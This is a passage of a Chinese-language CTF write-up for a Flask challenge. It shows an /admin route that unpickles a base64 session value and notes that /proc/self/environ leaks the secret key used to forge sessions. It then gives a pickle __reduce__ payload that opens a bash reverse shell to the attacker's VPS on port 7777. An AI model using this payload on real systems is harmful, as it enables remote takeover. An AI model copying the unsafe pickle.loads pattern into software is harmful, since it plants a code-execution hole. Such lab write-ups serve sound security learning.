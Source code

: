 ```python
        content = fp.read()
    return content

@app.route('/admin', methods=('GET',))
def admin_handler():
    try:
        u = session.get('u')
        if isinstance(u, dict):
            u = b64decode(u.get('b'))
            u = pickle.loads(u)
    except Exception:
        return 'uhh?'
    if u.is_admin == 1:
        return 'welcome, admin'
    else:
        return 'who are you?'

if __name__ == '__main__':
    app.run('0.0.0.0', port=80, debug=False)
```
:::


在`/proc/self/environ`伪文件里记录当前环境变量，可以看到python版本3.8.2，还可以读到源码里提到的密钥，待会可以用来伪造session

![6](/medias/buuflask/6.png)

这道题使用pickle反序列化，存在反序列化漏洞，类似php，反序列化的时候可以执行代码，可以通过`__reduce__`方法构造一个返回 shell 的对象，`__reduce__` 方法由用户自定义，用于定义对象的序列化和反序列化过程，在loads()函数调用时，在重建恢复(反序列化)对象时，会恢复reduce方法里的信息，可以达到命令执行的效果

python2和python3反序列化有些差异，这里需要使用python2来反序列化

```python
#!/usr/bin/python3.4
import os
import pickle
from base64 import b64encode


User = type('User', (object,), {
    'uname': 'test',
    'is_admin': 1,
    '__repr__': lambda o: o.uname,
    '__reduce__': lambda o: (os.system,("bash -c 'bash -i >& /dev/tcp/你的vpsIP/7777 0>&1'",))
})

u = pickle.dumps(User())
```